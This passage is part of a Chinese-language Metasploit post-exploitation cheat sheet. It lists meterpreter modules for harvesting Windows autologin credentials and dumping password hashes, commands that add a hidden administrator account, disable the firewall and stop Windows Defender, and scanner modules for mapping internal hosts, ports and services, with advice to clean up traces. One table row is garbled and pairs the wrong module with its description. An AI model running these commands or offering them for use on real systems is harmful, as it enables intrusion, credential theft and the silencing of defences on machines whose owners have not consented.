 | run post/windows/gather/credentials/windows_autologin | 抓取自动登录的用户名和密码                             |
| run post/windows/gather/smart_hashdump                | *dump*出所有用户的*hash*                               |
| run getgui -u hack -p 123                             | 有时候无法使用后渗透模块添加用户 可以使用shell自主添加 |



### 添加可以使用的shell用户自主添加

```
net user hack Zyx960706 /add
net localgroup administrator hack /add
netsh advfirewall set allprofiles state off        #关闭防火墙
net stop windefend
```



### 域内存活主机探测（系统、端口）

| 模块                                                         | 作用                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| auxiliary/scanner/discovery/udp_sweep                        | 基于udp协议发现内网存活主机                                  |
| auxiliary/scanner/discovery/udp_probe                        | 基于udp协议发现内网存活主机                                  |
| auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机 | 基于netbios协议发现内网存活主机                              |
| auxiliary/scanner/portscan/tcp                               | 基于tcp进行端口扫描(1-10000)，如果开放了端口，则说明该主机存活 |



### 端口扫描

端口扫描有时会使会话终端，所以可以上传nmap后在shell中使用nmap扫描。但是要记得清理

| 模块                           | 作用                                              |
| ------------------------------ | ------------------------------------------------- |
| auxiliary/scanner/portscan/tcp | 基于tcp进行端口扫描(1-10000)                      |
| auxiliary/scanner/portscan/ack | 基于tcp的ack回复进行端口扫描，默认扫描1-10000端口 |



### 服务扫描

| 模块                                         | 作用                                     |
| -------------------------------------------- | ---------------------------------------- |
| auxiliary/scanner/ftp/ftp_version            | 发现内网ftp服务，基于默认21端口          |
| auxiliary/scanner/ssh/ssh_version            | 发现内网ssh服务，基于默认22端口          |
| auxiliary/scanner/telnet/telnet_version      | 发现内网telnet服务，基于默认23端口       |
| auxiliary/scanner/dns/dns_amp                | 发现dns服务，基于默认53端口              |
| auxiliary/scanner/http/http_version          | 发现内网http服务，基于默认80端口         |
| auxiliary/scanner/http/title                 | 探测内网http服务的标题                   |
| auxiliary/scanner/smb/smb_version            | 发现内网smb服务，基于默认的445端口       |
| use auxiliary/scanner/mssql/mssql_schemadump | 发现内网SQLServer服务,基于默认的1433端口 |
| use auxiliary/scanner/oracle/oracle_hashdump | 发现内网oracle服务,基于默认的1521端口    |
| auxiliary/scanner/mysql/mysql_version        | 发现内网mysql服务，基于默认*3306端口*    |
| auxiliary/scanner/rdp/rdp_scanner            | 发现内网RDP服务，基于默认*3389端口*      |